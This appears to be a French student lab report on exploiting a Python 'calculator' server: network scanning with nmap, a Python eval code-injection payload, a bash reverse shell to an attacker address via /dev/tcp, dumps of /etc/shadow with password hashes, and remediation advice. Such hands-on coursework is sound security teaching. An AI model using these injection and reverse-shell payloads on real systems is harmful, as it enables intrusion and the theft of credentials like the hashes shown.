 # TP5 : Exploit, pwn, fix

## Sommaire

  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 1. Reconnaissance

🌞 **Déterminer**

Le client essaye de se connecter à l'adresse IP 10.1.2.12 et au port 13337.

Sans avoir accès au code source, on pouvait également voir ce qu'il se passe en lançant le client et en regardant les communications avec Wireshark.

🌞 **Scanner le réseau**

[La petit capture Wireshark](./tp5_nmap.pcapng)

Et le petit nmap :
```
[axel@fedora ~]$ sudo nmap -sS 10.33.64.0/20 -p 13337
Nmap scan report for 10.33.66.165
Host is up (0.012s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.028s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0090s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0068s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Intel Corporate)

Nmap done: 4096 IP addresses (865 hosts up) scanned in 227.73 seconds
```

🌞 **Connectez-vous au serveur**

On met une des IP trouvées par nmap à la place de l'ancienne IP pour que ça marche.

Il s'agit d'une calculatrice "en ligne".

## 2. Exploit

🌞 **Injecter du code serveur**

A mettre dans la zone d'input pour que le serveur me ping.

Il faut aussi modifier le code côté client pour retirer la regex.
```
__import__('os').system('ping -c 1 10.33.79.35')
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**


Côté *hacker* :
```
nc -lvnp 9001
```
Ce qu'il faut mettre dans la zone d'input :
```
__import__('os').system('sh -i >& /dev/tcp/10.33.79.35/9001 0>&1')
```
Et **POP** un shell.

🌞 **Pwn**

etc/shadow :
```
cat /etc/shadow
root:$6$Ac2Zned208vSDVSn$wKuS7q/pIYPo90yin8zl6Ocxd/liQd4aCTnzQEwsTQ2feosGAovhMqxFR.oladVr3G8UbXf2/u.OzeDfWM4aq.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19621::::::
dbus:!!:19621::::::
tss:!!:19621::::::
sssd:!!:19621::::::
sshd:!!:19621::::::
systemd-oom:!*:19621::::::
it4:$6$bV62paDqH/ZQSVFb$jiBgcgpkuzmmoZSvvLPwpd4gjwvnKQEWTE119tMNTnICtMcJ6dyPcDCVaTur8j5UQFuxAAM6eTimGdr97Nagh1::0:99999:7:::
```
etc/passwd :
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:993:993:systemd Userspace OOM Killer:/:/usr/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
```

[ICI](./serveur.py) pour le code du serveur.

Il y a seulement le serveur python et ssh :
```
ss -tupnl
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 2      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4))
```

## II. Remédiation

🌞 **Proposer une remédiation dév**

J'ai modifié le code pour ne plus utiliser la fonction eval et vérifier l'input utilisateur.

Voici le [code](./serveur_modified.py)

🌞 **Proposer une remédiation système**

Le user qui fait tourner le serveur est root.
```
whoami
root
```
Il faudrait créer un user spécial pour le serveur qui a uniquement les droits de lancer ce script et écrire dans le fichier de log.

Aussi ça pourrait être sympa de faire tourner tout ça dans un docker container.

[Ici](./Dockerfile) un exemple de Dockerfile.

[Et ici](./docker-compose.yml) un exemple de docker compose.